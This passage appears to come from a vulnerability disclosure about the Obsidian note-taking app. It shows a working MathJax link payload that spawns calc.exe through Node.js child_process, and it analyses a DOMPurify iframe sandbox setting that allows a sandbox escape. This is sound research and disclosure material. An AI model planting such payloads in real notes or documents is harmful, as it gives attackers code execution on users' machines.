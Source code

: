 For example by adding the following MathJax created link in the notes, the calculator application on Windows will be spawned via Node.js calls:
```js
$$\href{javascript:module.__proto__.require("child_process").spawnSync("calc.exe")}{JS-Url-Not-Sanitized}$$
```


## IFrame Sandbox Bypass and Path Traversal to RCE

Obsidian allows the inclusion of external content like videos through HTML `iframe` elements.
In order to safeguard against potential attacks, in general HTML Elements within Obsidians Markdown files are sanitized with the `DOMPurify` library.
From the minified source code we can observe that a custom `afterSanitizeAttributes` hook is used, as well as the `DOMPurify` settings as variable `Kg`:

```js
DOMPurify.addHook("afterSanitizeAttributes", (function(t) {
    if (t instanceof HTMLAnchorElement && (t.setAttribute("target", "_blank"),
    t.setAttribute("rel", "noopener")),
    t instanceof HTMLIFrameElement && (t.setAttribute("sandbox", "allow-forms allow-presentation allow-same-origin allow-scripts allow-modals"),
    t.hasAttribute("allow"))) {
        for (var e = [], n = 0, i = t.getAttribute("allow").split(";"); n < i.length; n++) {
            var r = i[n];
            r = r.trim().toLowerCase(),
            Gg.hasOwnProperty(r) && Gg[r] && e.push(r)
        }
        t.setAttribute("allow", e.join("; "))
    }
}
));
var Kg = {
    ALLOW_UNKNOWN_PROTOCOLS: !0,
    RETURN_DOM_FRAGMENT: !0,
    RETURN_DOM_IMPORT: !0,
    FORBID_TAGS: ["style"],
    ADD_TAGS: ["iframe"],
    ADD_ATTR: ["frameborder", "allowfullscreen", "allow", "aria-label-position"]
};
function $g(t) {
    return DOMPurify.sanitize(t, Kg)
}
```

We can see that `iframe` elements are explicitly allowed and for each of them, the `sandbox` attribute is set to `allow-forms allow-presentation allow-same-origin allow-scripts allow-modals`.
The combination of `allow-same-origin` and `allow-scripts` is dangerous and will allow us to escape the sandbox later.
In the [HTML spec](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox) one can find the following warning:
> Setting both the allow-scripts and allow-same-origin keywords together when the embedded page has the same origin as the page containing the iframe allows the embedded page to simply remove the sandbox attribute and then reload itself, effectively breaking out of the sandbox altogether.
